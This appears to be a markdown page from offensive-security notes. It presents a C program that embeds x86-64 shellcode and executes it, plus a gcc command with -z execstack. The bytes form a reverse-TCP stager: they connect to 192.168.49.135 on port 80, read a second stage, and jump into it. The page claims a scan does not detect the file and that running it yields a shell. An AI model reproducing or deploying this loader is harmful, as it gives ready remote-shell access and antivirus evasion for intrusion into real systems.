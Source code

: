 ## Shellcode
Our combined shellcode looks like so:
```C
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

unsigned char buf[] = 
"\x48\x31\xff\x6a\x09\x58\x99\xb6\x10\x48\x89\xd6\x4d\x31\xc9"
"\x6a\x22\x41\x5a\xb2\x07\x0f\x05\x48\x85\xc0\x78\x51\x6a\x0a"
"\x41\x59\x50\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05"
"\x48\x85\xc0\x78\x3b\x48\x97\x48\xb9\x02\x00\x00\x50\xc0\xa8"
"\x31\x87\x51\x48\x89\xe6\x6a\x10\x5a\x6a\x2a\x58\x0f\x05\x59"
"\x48\x85\xc0\x79\x25\x49\xff\xc9\x74\x18\x57\x6a\x23\x58\x6a"
"\x00\x6a\x05\x48\x89\xe7\x48\x31\xf6\x0f\x05\x59\x59\x5f\x48"
"\x85\xc0\x79\xc7\x6a\x3c\x58\x6a\x01\x5f\x0f\x05\x5e\x6a\x7e"
"\x5a\x0f\x05\x48\x85\xc0\x78\xed\xff\xe6";

int main (int argc, char **argv) 
{
	// Run our shellcode
	int (*ret)() = (int(*)())buf;
  	ret();

}
```

## Compilation
We can proceed to compile our program as follows:
```sh
gcc -o hack.out hack.c -z execstack
```
Our _buf_ variable is a local variable and as such, is stored on the stack.
Our shellcode execution would normally be blocked as the stack is marked as non-executable for binaries compiled by modern versions of gcc.
We can explicitly allow it with the -z execstack parameter.

We can scan the file to see that it's not detected:
![cpws-kb](../../../Screenshots/cpws-kb.png)

Running our shellcode gets us a shell on the system:
![](../../../Screenshots/cswp-bk-sh.png)